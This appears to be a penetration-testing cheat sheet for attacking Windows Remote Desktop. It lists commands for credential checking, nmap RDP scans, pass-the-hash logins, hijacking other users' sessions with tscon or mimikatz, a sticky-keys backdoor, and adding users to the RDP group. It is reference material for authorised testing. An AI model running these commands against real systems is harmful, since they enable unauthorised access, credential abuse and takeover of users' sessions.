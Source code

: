 

----
## RDPChecker (Remote Desktop Protocol)
Test one host
```
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t 10.0.0.1
```
Test several hosts
```
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t 10.0.0.1,10.0.2.2,192.168.1.25,172.26.5.15
```
Test several hosts using file
``` 
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t hosts.txt
```
NMAP scritps
```
nmap -v --script rdp-enum-encryption -p 3389 -T4 IP
nmap -v --script rdp-vuln-ms12-020 -p 3389 -T4 IP
nmap -v --script rdp-ntlm-info -p 3389 -T4 IP
```
Connect with known creds
```
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
```
rdp_check.py from impacket let you check if some credentials are valid for a RDP service
```
rdp_check <domain>/<name>:<password>@<IP>
```
You can launch a new cmd to wich new credentials will be attached so, every interaction this new shell makes with the network will use the new credentials
```
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" 
#The password will be prompted
```
With Administrator rights you can access any opened RDP session by any user without need to know the password of the owner.
```
	# Get openned sessions:
	query use

	#Access to the selected session
	tscon <ID> /dest:<SESSIONNAME>

# Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

# Important: When you access an active RDP sessions you will kickoff the user that was using it.
```
  *You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines).*

You could also use mimikatz to do this
```
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
Sticky-keys & Utilman
* Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime.

Adding User to RDP group
```
net localgroup "Remote Desktop Users" UserLoginName /add
